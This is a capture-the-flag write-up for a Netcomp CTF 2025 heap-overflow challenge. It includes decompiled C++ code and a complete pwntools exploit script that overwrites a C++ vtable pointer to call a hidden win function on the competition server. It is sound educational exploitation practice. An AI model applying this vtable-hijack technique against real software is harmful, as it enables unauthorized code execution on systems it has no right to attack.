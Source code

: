 ```yaml
---
title: "Netcomp CTF 2025 Writeup"
pubDate: 2025-02-19
description: "A local Indonesian CTF from UGM that I participated to practice more Binary Exploitation, my team scored Top 15 in Quals, but didn't get a spot for the finals, but it was a very good practice for my introduction to C++ and Heap Exploitation"
tags:
  - ctf
  - pwn
  - c++
  - heap
  - heap overflow
---
```



## Pwn - Intro

**Warning: This writeup was originally in INDONESIAN for the competition's mandatory writeup, so I used ChatGPT to translate to ENGLISH!!!**

<PostFileDownload name="2025-netcomp-pwnintro.zip" />

A given binary named **chall** was analyzed and found to be a “Heap Profile Manager.” After decompiling it using **Ghidra**, its working mechanism was identified as follows:

```c
void vulnerableFunction(void)

{
  char *pcVar1;
  UserProfile *this;
  AdminProfile *this_00;
  ostream *poVar2;

  pcVar1 = (char *)operator.new[](0x40);
  this = (UserProfile *)operator.new(8);
  *(undefined8 *)this = 0;
  UserProfile::UserProfile(this);
  this_00 = (AdminProfile *)operator.new(8);
  *(undefined8 *)this_00 = 0;
  AdminProfile::AdminProfile(this_00);
  std::operator<<((ostream *)std::cout,"Enter your profile descri ption: ");
  std::operator>>((istream *)std::cin,pcVar1);
  poVar2 = std::operator<<((ostream *)std::cout,"Your profile says: ");
  poVar2 = std::operator<<(poVar2,pcVar1);
  std::operator<<(poVar2,"\n");
  (*(code *)**(undefined8 **)this)(this,pcVar1);
  if (pcVar1 != (char *)0x0) {
	operator.delete[](pcVar1);
  }
  if (this != (UserProfile *)0x0) {
	operator.delete(this,8);
  }
  if (this_00 != (AdminProfile *)0x0) {
	operator.delete(this_00,8);
  }
  return;
}
```

The program starts by allocating **0x40 (or 64 in decimal) bytes** for an input buffer, which is then passed to the `displayProfile` function to display what we input. For example:

![Regular interface of binary](../../images/2025/netcomp-1.png)

However, a significant vulnerability is present in the input handling, as it does not validate the input length, allowing an **overflow**. The target overflow is the following function call, which also lacks validation, so it can be replaced with any pointer if done correctly:

```c
(*(code *)**(undefined8 **)this)(this,pcVar1);
```

After that, I tried analyzing the heap content by sending a **64-character cyclic payload** using `pwntools`:

```python
OFFSET=64

payload = flat(
	cyclic(OFFSET,n=8)
)

io.sendline(payload)
```

Since the buffer size is **0x40**, adding heap metadata should result in a total size close to that:

![Heap chunks in pwndbg gdb](../../images/2025/netcomp-2.png)

Thus, I was able to further analyze the heap chunk addresses:

![Vtable analysis in pwndbg gdb](../../images/2025/netcomp-3.png)

It was concluded that **three allocations** occur in sequence:

1. **Buffer allocation (0x40)**
2. **User allocation (8 bytes)**
3. **Admin allocation (8 bytes)**

The next steps are:

1. **Overflow without corrupting the heap structure**
2. **Replace the vtable of `UserProfile` with the vtable of the `win` function found in the `AdminProfile` class**

![Find the correct vtable](../../images/2025/netcomp-4.png)

The **vtable address** used can be found in **Ghidra**, resulting in the following **payload structure**:

1. **Offset characters**
2. **Heap overflow**
3. **Address of the vtable for `win`**

Thus, the final payload is as follows:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chall')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '103.127.138.252'
port = int(args.PORT or 17010)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *vulnerableFunction+226
b *vulnerableFunction+242
b *vulnerableFunction+264
b *vulnerableFunction+286
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

OFFSET=64

log.info(io.clean())

payload = flat(
    cyclic(OFFSET,n=8),
    0x0 * 15,
    0x21,
    0x403db0
)

io.sendline(payload)

io.interactive()
```

![Obtaining the flag](../../images/2025/netcomp-5.png)
